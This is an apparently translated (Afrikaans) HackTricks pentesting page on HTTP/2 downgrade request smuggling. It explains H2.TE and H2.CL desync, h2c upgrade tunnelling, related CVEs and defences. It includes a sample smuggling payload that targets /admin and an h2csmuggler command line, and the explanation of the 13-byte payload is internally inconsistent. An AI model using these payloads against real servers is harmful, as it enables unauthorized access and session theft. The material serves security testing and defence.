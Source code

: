 # Versoek Smuggling in HTTP/2 Downgrades

{{#include ../../banners/hacktricks-training.md}}

HTTP/2 word oor die algemeen beskou as immuun teen klassieke request-smuggling omdat die lengte van elke DATA-raam eksplisiet is. **Daardie beskerming verdwyn sodra 'n front-end proxy die versoek na HTTP/1.x “downgrade” voordat dit na 'n back-end gestuur word**. Die oomblik wanneer twee verskillende parsers (die HTTP/2 front-end en die HTTP/1 back-end) probeer ooreen te kom oor waar een versoek eindig en die volgende begin, kom al die ou desync truuks terug – plus 'n paar nuwe.

---
## Waarom downgrades gebeur

1. Blaaiers praat reeds HTTP/2, maar baie ouer oorsprong infrastruktuur verstaan steeds net HTTP/1.1.
2. Terug-proxies (CDNs, WAFs, laai-balansers) beëindig dus TLS + HTTP/2 aan die rand en **herformuleer elke versoek as HTTP/1.1** vir die oorsprong.
3. Die vertaalstap moet *albei* `Content-Length` **en/of** `Transfer-Encoding: chunked` koppe skep sodat die oorsprong die liggaamslengte kan bepaal.

Wanneer die front-end die HTTP/2 raam lengte **maar** die back-end CL of TE vertrou, kan 'n aanvaller hulle dwing om nie saam te stem nie.

---
## Twee dominante primitiewe klasse

| Variant | Front-end lengte | Back-end lengte | Tipiese payload |
|---------|-----------------|-----------------|-----------------|
| **H2.TE** | HTTP/2 raam | `Transfer-Encoding: chunked` | Sluit 'n ekstra chunked boodskap liggaam in waarvan die finale `0\r\n\r\n` *nie* gestuur word nie, sodat die back-end wag vir die aanvaller-geleverde “volgende” versoek. |
| **H2.CL** | HTTP/2 raam | `Content-Length` | Stuur 'n *kleiner* CL as die werklike liggaam, sodat die back-end oor die grens lees in die volgende versoek. |

> Hierdie is identies in gees aan klassieke TE.CL / CL.TE, net met HTTP/2 wat een van die parsers vervang.

---
## Identifisering van 'n downgrade ketting

1. Gebruik **ALPN** in 'n TLS handdruk (`openssl s_client -alpn h2 -connect host:443`) of **curl**:
```bash
curl -v --http2 https://target
```
As `* Using HTTP2` verskyn, praat die rand H2.
2. Stuur 'n doelbewus verkeerd gevormde CL/TE versoek *oor* HTTP/2 (Burp Repeater het nou 'n keuselys om HTTP/2 te dwing). As die antwoord 'n HTTP/1.1 fout soos `400 Bad chunk` is, het jy bewys dat die rand die verkeer vir 'n HTTP/1 parser stroomaf omgeskakel het.

---
## Exploitasiestroom (H2.TE voorbeeld)
```http
:method: POST
:path: /login
:scheme: https
:authority: example.com
content-length: 13      # ignored by the edge
transfer-encoding: chunked

5;ext=1\r\nHELLO\r\n
0\r\n\r\nGET /admin HTTP/1.1\r\nHost: internal\r\nX: X
```
1. Die **front-end** lees presies 13 bytes (`HELLO\r\n0\r\n\r\nGE`), dink die versoek is klaar en stuur dit soveel na die oorsprong.
2. Die **back-end** vertrou die TE-header, hou aan lees totdat dit die *tweede* `0\r\n\r\n` sien, en verbruik so die voorvoegsel van die aanvaller se tweede versoek (`GET /admin …`).
3. Die oorblyfsels (`GET /admin …`) word as 'n *nuwe* versoek behandel wat agter die slagoffer se versoek in die tou staan.

Vervang die gesmokkelde versoek met:
* `POST /api/logout` om sessiefiksasie af te dwing
* `GET /users/1234` om 'n slagoffer-spesifieke hulpbron te steel

---
## h2c smuggling (helder teks opgraderings)

'n Studie in 2023 het getoon dat as 'n front-end die HTTP/1.1 `Upgrade: h2c` header aan 'n back-end wat helder teks HTTP/2 ondersteun, oorgedra, 'n aanvaller *raw* HTTP/2 rame deur 'n rand kan tunnel wat slegs gevalideerde HTTP/1.1 ondersteun. Dit omseil header normalisering, WAF-reëls en selfs TLS-terminasie.

Belangrike vereistes:
* Rand stuur **albei** `Connection: Upgrade` en `Upgrade: h2c` onveranderd voort.
* Oorsprong verhoog na HTTP/2 en hou die verbinding-hergebruik semantiek wat versoek-tou moontlik maak.

Mitigering is eenvoudig – verwyder of hard-kodeer die `Upgrade` header by die rand, behalwe vir WebSockets.

---
## Noemenswaardige werklike CVE's (2022-2025)

* **CVE-2023-25690** – Apache HTTP Server mod_proxy herskryf reëls kan geketting word vir versoek splitsing en smuggling. (reggestel in 2.4.56)
* **CVE-2023-25950** – HAProxy 2.7/2.6 versoek/antwoord smuggling wanneer HTX parser pyplyn versoeke verkeerd hanteer.
* **CVE-2022-41721** – Go `MaxBytesHandler` het veroorsaak dat oorblywende liggaamsbytes as **HTTP/2** rame geparseer word, wat kruis-protokol smuggling moontlik maak.

---
## Gereedskap

* **Burp Request Smuggler** – sedert v1.26 toets dit outomaties H2.TE/H2.CL en versteekte ALPN-ondersteuning. Aktiveer “HTTP/2 probing” in die uitbreiding opsies.
* **h2cSmuggler** – Python PoC deur Bishop Fox om die helder teks opgradering aanval te outomatiseer:
```bash
python3 h2csmuggler.py -u https://target -x 'GET /admin HTTP/1.1\r\nHost: target\r\n\r\n'
```
* **curl**/`hyper` – handmatige payloads saamstel: `curl --http2-prior-knowledge -X POST --data-binary @payload.raw https://target`.

---
## Verdedigingsmaatreëls

1. **Eind-tot-eind HTTP/2** – elimineer die afgraderingsvertaling heeltemal.
2. **Enkele bron van lengte waarheid** – wanneer afgraderend, *altyd* 'n geldige `Content-Length` **en** **verwyder** enige gebruiker-gelewer `Content-Length`/`Transfer-Encoding` headers genereer.
3. **Normaliseer voor roete** – pas header-sanitizering *voor* roetering/herskryf logika toe.
4. **Verbinding isolasie** – moenie back-end TCP verbindings oor gebruikers hergebruik nie; “een versoek per verbinding” verslaan tou-gebaseerde eksplosies.
5. **Verwyder `Upgrade` tensy WebSocket** – voorkom h2c tunneling.

---
## Verwysings

* PortSwigger Navorsing – “HTTP/2: Die vervolg is altyd erger” <https://portswigger.net/research/http2>
* Bishop Fox – “h2c Smuggling: versoek smuggling via HTTP/2 helder teks” <https://bishopfox.com/blog/h2c-smuggling-request>

{{#include ../../banners/hacktricks-training.md}}
